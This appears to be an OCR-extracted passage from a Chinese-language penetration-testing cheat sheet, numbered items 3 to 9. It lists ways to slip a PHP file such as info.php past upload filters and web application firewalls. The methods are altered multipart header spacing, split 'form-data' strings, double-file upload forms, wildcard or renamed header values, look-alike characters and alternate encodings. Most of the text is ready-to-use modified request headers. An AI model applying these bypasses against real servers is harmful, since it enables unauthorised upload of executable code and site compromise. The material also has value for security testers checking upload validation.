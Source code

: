 ```
Content-Disposition:form-data;name=“upload_file”; file=“info.php” Content-Type: application/octet-stream
将Content-Disposition:form-data 冒号后面增加或者减少一个空格
将form-data;name="upload_file；分号后面增加或减少一个空格
将Content-Type：冒号后面增加一个空格
```

4.字符串拼接绕过：

```
Content-Disposition:form-data;name=“upload_file”; file=“info.php”
将form-data修改为f+orm-data
将form-data修改为form-d+ata
```

5.双文件上传绕过：

```
<form action="https://www.xxx.com/xxx.asp(php)" method="post" name="form1" enctype="multipart/form‐ data">
<input name="FileName1" type="FILE" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传"> </form> 
```

6.HTTP header 属性值绕过：

```
Content-Disposition:form-data;name=“upload_file”; file=“info.php”
将form-data替换为*来绕过
Content-Disposition:*;name=“upload_file”; file=“info.php”
```

7.HTTP header 属性名称绕过：

```
Content-Disposition: form-data; name=“image”; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
修改为：
Content-Disposition: form-data; name=“image”; filename=“085733uykwusqcs8vw8wky.png C.php”
删除掉ontent-Type:image/jpeg只留下c,将.php加到c后面即可，但是要注意，双引号要跟着c.php
```

8.等效替换绕过：

```
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改为：
Content‐Type: multipart/form‐data; boundary =‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐471463142114
bodundary后面加入空格。
```

9.修改编码绕过：

使用UTF-16、Unicode、双URL编码等等。

 
